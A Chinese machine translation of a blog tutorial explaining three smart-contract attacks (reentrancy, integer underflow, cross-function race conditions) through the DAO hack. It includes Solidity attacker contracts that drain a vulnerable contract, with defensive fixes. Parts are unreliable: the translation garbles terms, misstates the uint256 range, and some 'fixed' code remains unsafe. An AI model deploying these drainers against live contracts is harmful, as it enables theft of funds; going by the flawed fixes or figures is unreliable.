


# 智能契约攻击[第 1 部分] - 3 攻击我们都应该向道学习

> 原文：<https://medium.com/hackernoon/smart-contract-attacks-part-1-3-attacks-we-should-all-learn-from-the-dao-909ae4483f0a>



如果你已经关注加密足够长的时间，你可能听说过一两个智能合同攻击，这些攻击导致价值数千万美元的加密资产被盗。最引人注目的攻击仍然是分散自治组织(DAO)，这是 crypto 有史以来最受期待的项目之一，也是智能合约革命性能力的典型代表。虽然大多数人听说过这些攻击，但很少有人真正理解哪里出了问题，是如何出问题的，以及如何避免两次犯同样的错误。

智能合约是动态的、复杂的，而且非常强大。虽然它们的潜力难以想象，但它们不太可能在一夜之间变得防攻击。也就是说，为了密码的未来，我们必须从以前的错误中吸取教训，共同成长。尽管 DAO 已经成为过去，但它仍然是易受智能契约攻击的一个很好的例子，开发人员、投资者和社区成员应该熟悉它。

在我的*智能契约攻击*系列的第 1 部分中，我将带您详细了解(包括可靠性代码)我们可以从 DAO 学到的 3 种常见攻击。无论您是开发人员、投资者还是加密爱好者，了解这些攻击将使您对这项有前途的技术有更深的理解和欣赏。

## [**在推特上关注我**](https://twitter.com/pete_humiston?lang=en)

## [**想写你的第一份智能合同？查看我的教程**](https://codeburst.io/build-your-first-ethereum-smart-contract-with-solidity-tutorial-94171d6b1c4b)

# 攻击 1:可重入性

当攻击者通过递归调用目标的取款函数*、*从目标中提取资金时，就发生了可重入攻击，DAO 就是这种情况。当合同在发送资金之前未能更新其状态(用户的余额)时，攻击者可以不断调用取款函数来耗尽合同的资金。每当攻击者收到 Ether 时，攻击者的契约会自动调用其回退函数`function ()`，该函数被编写为再次调用 withdraw 函数。此时，攻击进入了一个递归循环，合同的资金开始流向攻击者。因为目标契约在调用攻击者的回退函数时被卡住了，所以该契约永远无法更新攻击者的余额。目标合同被骗以为没有问题...需要说明的是，*回退功能是合同的一个功能，每当合同接收到以太和零数据时，该功能就会自动执行。*

**攻击**

1.  攻击者向目标契约捐赠乙醚
2.  目标契约更新攻击者捐赠以太的余额
3.  攻击者要求收回资金
4.  资金被退回
5.  攻击者的后退功能被触发，并要求随后撤退
6.  智能合约更新攻击者余额的逻辑尚未执行，因此再次成功调用了取款
7.  资金被发送给攻击者
8.  重复步骤 5–7
9.  一旦攻击结束，攻击者就从他们的合同中向他们的个人地址发送资金



The recursive loop of a reentrancy attack

不幸的是，一旦攻击开始，就没有办法停止。攻击者的撤回功能会被反复调用，直到契约要么气尽，要么受害者的乙醚余额已经耗尽。

**下面的代码** 是易受影响的 DAO 契约的简化版本，它包括一些注释，以便不熟悉编程/可靠性的人更好地理解该契约。

```
**contract babyDAO {**

    /* assign key/value pair so we can look up 
    credit integers with an ETH address */ 
    **mapping (address => uint256) public credit;
** 
    /* a function for funds to be added to the contract,
    sender will be credited amount sent */
 **function donate(address to) payable {
        credit[msg.sender] += msg.value;
    }**

    /*show ether credited to address*/
    **function assignedCredit(address) returns (uint) {
        return credit[msg.sender];
    }**

    /*withdrawal ether from contract*/
    **function withdraw(uint amount) {
        if (credit[msg.sender] >= amount) {
        msg.sender.call.value(amount)();
        credit[msg.sender] -= amount;**
 **}
  }
}**
```

如果我们看一下`function withdraw()`，我们可以看到 DAO 联系人使用`address.call.value()`向`msg.sender`发送资金。不仅如此，在资金已经发出后，契约还会更新`credit[msg.sender]` *的状态。这两者都是大忌。认识到合约代码中的这些漏洞，攻击者可以使用类似下面的`contract *ThisIsAHodlUp {}*` 这样的合约来清算所有的`contract babyDAO{}`资金。*

```
**import ‘browser/babyDAO.sol’;****contract ThisIsAHodlUp {** /* assign babyDAO contract as "dao" */ **babyDAO public dao = babyDAO(0x2ae...);
    address owner;** 
    /*assign contract creator as owner*/
   ** constructor(ThisIsAHodlUp) public {
        owner = msg.sender;
    }** /*fallback function, withdraws funds from babyDAO*/
    **function() public { 
        dao.withdraw(dao.assignedCredit(this));
    }**

    /*send drained funds to attacker’s address*/
 **   function drainFunds() payable public{
        owner.transfer(address(this).balance);
    }
}**
```

请注意，回退函数`function()`调用`dao`或`contract babyDAO{}`的撤销函数，从合同中窃取资金。另一方面，`function drainFunds()`将在攻击结束时被调用，此时攻击者想要将所有被盗的以太网发送到他们的地址。

**解决方案** 现在应该很清楚，可重入攻击利用了两个特定的智能合约漏洞。第一种情况是，合同的状态是在资金发送之后而不是之前更新的。由于未能在发送资金之前更新合同状态，该功能可能会在计算过程中被中断，合同将被欺骗，认为资金实际上还没有发送。第二个漏洞是当契约错误地使用`address.call.value()`而不是`address.transfer()`或`address.send()`发送资金时。两人的津贴都被限制在 2300 汽油，只够记录一次事件，而不是多次外部呼叫。

*   发送资金前更新合同余额
*   发送资金时使用`[address.transfe](http://solidity.readthedocs.io/en/develop/units-and-global-variables.html?highlight=transfer#address-related)r()`或`[address.send](http://solidity.readthedocs.io/en/develop/units-and-global-variables.html?highlight=transfer#address-related)()`

```
**contract babyDAO{** .... **function withdraw(uint amount) {
        if (credit[msg.sender] >= amount) {
        credit[msg.sender] -= amount;** /* updates balance first */ **msg.sender.send(amount)();** /* send funds properly */ **}
}**
```

# **攻击二:下溢**

虽然 DAO 契约没有成为下溢攻击的受害者，但是我们可以利用现有的`babyDAO contract{}`来更好地理解这种常见的攻击是如何发生的。

首先，让我们确保了解什么是`uint256`。`uint256`是一个 256 位的无符号整数(无符号，因为只有正整数)。以太坊虚拟机被设计为使用 256 位作为其字长，即计算机 CPU 一次处理的位数。因为 EVM 的大小限制为 256 位，所以分配的数字范围是 0 到 4，294，967，295 (2 ⁵⁶).如果我们越过这个范围，数字被重置到范围的底部(2 ⁵⁶ + 1 = 0)。如果我们在这个范围之下，数字被重置到范围的顶端(0–1 = 2 ⁵⁶).

当我们从零中减去一个大于零的数时，就会发生下溢，产生一个新分配的 2 ⁵⁶.的整数现在，如果攻击者的余额出现下溢，余额将被更新，这样所有的资金都可能被盗。

**攻击**

*   攻击者通过向目标契约发送 1 个 Wei 来发起攻击
*   该合同将汇款人发送的资金记入贷方
*   随后的撤回同样被称为 1 魏
*   合同从发送者的信用中减去 1 魏，现在余额又是零
*   因为目标契约向攻击者发送以太，所以攻击者的回退函数也被触发，并再次调用撤销
*   1 魏的撤军是有记载的
*   攻击者的合同余额已经更新了两次，第一次更新为零，第二次更新为-1
*   攻击者的平衡被重置为 2 ⁵⁶
*   攻击者通过提取目标合同的所有资金来完成攻击

**代码**

```
**import ‘browser/babyDAO’;****contract UnderflowAttack {

    babyDAO public dao = babyDAO(0x2ae…);
    address owner;
    bool performAttack = true;** 
    /*set contract creator as owner*/ 
    **constructor{ owner = msg.sender;}**

    /*donate 1 wei, withdraw 1 wei*/
  **  function attack() {
        dao.donate.value(1)(this);
        dao.withdraw(1);
    }**

    /*fallback function, results in 0–1 = 2**256 */
   ** function() {
       if (performAttack) {
       performAttack = false;
       dao.withdraw(1);
       }
     }**

     /*extract balance from smart contract*/
    **function getJackpot() {
        dao.withdraw(dao.balance);
        owner.send(this.balance);
    }**
**}**
```

**解决方案** 为了避免成为下溢攻击的受害者，最佳实践是检查更新的整数是否在其字节范围内。我们可以在代码中添加一个参数检查，作为最后一道防线。 `function withdraw()` 的第一行检查资金是否充足，第二行检查溢出，第三行检查下溢。

```
**contract babysDAO{**

....

    /*withdrawal ether from contract*/
    **function withdraw(uint amount) {
        if (credit[msg.sender] >= amount 
        && credit[msg.sender] + amount >= credit[msg.sender] 
        && credit[msg.sender] - amount <= credit[msg.sender]) {
        credit[msg.sender] -= amount;
        msg.sender.send(amount)();
    }
}**
```

注意，我们上面的代码还会在发送资金之前更新用户的余额，如前所述。

# **攻击#3:跨功能竞赛条件**

最后但同样重要的是，跨函数竞争条件攻击。正如在我们的可重入攻击中所讨论的，DAO 契约未能正确更新契约状态，从而导致资金被盗。一般来说，DAO 和外部调用的部分问题是跨函数竞争条件发生的可能性。

虽然以太坊中的所有事务都是串行运行的(一个接一个)，但如果管理不当，外部调用(调用另一个合同或地址)可能会导致灾难。在一个完美的世界里，它们是完全避免的。当两个函数被调用并且共享相同的状态时，就会发生跨函数竞争情况。契约被欺骗以为存在两个契约状态，而实际上只存在一个*真的*契约状态。我们不能同时拥有 X = 3 和 X = 4…

让我们用一个例子来阐明这个概念。

**攻击&代码**

```
**contract crossFunctionRace{

    mapping (address => uint) private userBalances;**/* uses userBalances to transfer funds */ **function transfer(address to, uint amount) {
        if (userBalances[msg.sender] >= amount) {
            userBalances[to] += amount;
            userBalances[msg.sender] -= amount;
        }
    }** /* uses userBalances to withdraw funds */ **function withdrawalBalance() public {
        uint amountToWithdraw = userBalances[msg.sender];
        require(msg.sender.send(amountToWithdraw)());
        userBalances[msg.sender] = 0;
    }
}**
```

上面的合同有两个功能—一个用于转移资金，另一个用于提取资金。让我们假设攻击者呼叫`function transfer()`的同时进行外部呼叫`function withdrawalBalance()`。`userBalance[msg.sender]`州正被拉向两个不同的方向。用户的余额尚未设置为 0，但攻击者也可以转移资金，尽管他们已经被提取。在这种情况下，合同已经允许攻击者*双重花费，*区块链[技术](https://hackernoon.com/tagged/blockchain)技术设计解决的问题之一。

*注意:*如果多个合同共享状态，则这些合同可能会出现跨功能竞争条件。

*   在调用外部函数之前，先完成所有内部工作
*   避免拨打外部电话
*   在不可避免的情况下，将外部调用函数标记为“不可信”
*   当外部调用不可避免时使用互斥体

根据下面的合同，我们可以看到一个 1)的合同示例。在打外部电话之前进行内部工作；2)。将所有外部调用函数标记为“不可信”。我们的合同允许将资金发送到一个地址，并允许用户为最初将资金存入合同而获得一次性奖励。

```
**contract crossFunctionRace{

    mapping (address => uint) private userBalances;
    mapping (address => uint) private reward;
    mapping (address => bool) private claimedReward;**//makes external call, need to mark as untrusted **function untrustedWithdraw(address recipient) public {
        uint amountWithdraw = userBalances[recipient];
        reward[recipient] = 0;
        require(recipient.call.value(amountWithdraw)());
    }** //untrusted because withdraw is called, an external call **function untrustedGetReward(address recipient) public {**//check that reward hasn’t already been claimed **require(!claimedReward[recipient]);** //internal work first (claimedReward and assigning reward) **claimedReward = true;
        reward[recipient] += 100;
        untrustedWithdraw(recipient);
    }
 }**
```

可以看到，当向用户的合同/地址发送资金时，合同的第一个函数进行外部调用。同样，奖励函数也使用取款函数来发送一次性奖励，因此也是不可信的。同样重要的是，契约首先执行所有内部工作。就像我们的重入攻击示例一样，`function untrustedGetReward()` 在允许撤销之前授予用户一次性奖励的信用，以防止跨功能竞争情况的发生。

在一个完美的世界里，智能合约不需要依赖外部调用。现实是，在许多情况下，外部电话几乎是不可能解决的。因此，使用互斥锁来“锁定”某些状态，并且只授予所有者更改状态的能力，可以帮助避免代价高昂的灾难。尽管互斥体非常有效，但是当用于多个契约时，它们会变得很棘手。如果您使用互斥来防止竞争情况，您将需要小心地确保没有其他方法来声明一个锁并且永远不释放它。如果采用互斥的方式，确保你已经完全理解了与它们写合同时的潜在危险(死锁、活锁等)。).

```
**contract mutexExample{

    mapping (address => uint) private balances;
    bool private lockBalances;

    function deposit() payable public returns (bool) {** /*check if lockBalances is unlocked before proceeding*/ **require(!lockBalances);**/*lock, execute, unlock */ **lockBalances = true;
        balances[msg.sender] += msg.value;
        lockBalances = false;
        return true;
    }

    function withdraw(uint amount) payable public returns (bool) {** /*check if lockBalances is unlocked before proceeding*/ **require(!lockBalances && amount > 0 && balances[msg.sender]
        >= amount);** /*lock, execute, unlock*/ **lockBalances = true;

        if (msg.sender.call(amount)()) {
            balances[msg.sender] -= amount;
        }

        lockBalances = false;
        return true;
    }
 }**
```

上面我们可以看到`contract mutexExample()`有私有锁状态，用于执行`function deposit()`和`function withdraw()`。这个锁将阻止用户在第一次调用结束前成功调用`withdraw()`，防止任何跨功能竞争情况的发生。

# 在一天结束的时候…

权力越大，责任越大。尽管区块链和智能合同技术每天都在不断发展，但风险仍然很高。攻击者一直在寻找合适的机会，抓住设计不良的合同并带着货物逃跑。如果我们如此渴望成长和突破极限，我们所有人都有责任确保从我们的同龄人以及我们自己的失败中吸取教训。希望通过这篇文章和我的系列文章的其余部分，您将对智能合约攻击和智能合约的理解更加自信。欢迎在 Medium & Twitter (@Pete_Humiston)上关注我，了解更多关于加密、区块链和可靠性的内容。

-皮特·胡密斯顿

如果你喜欢这篇文章，请随意鼓掌或者在下面留言！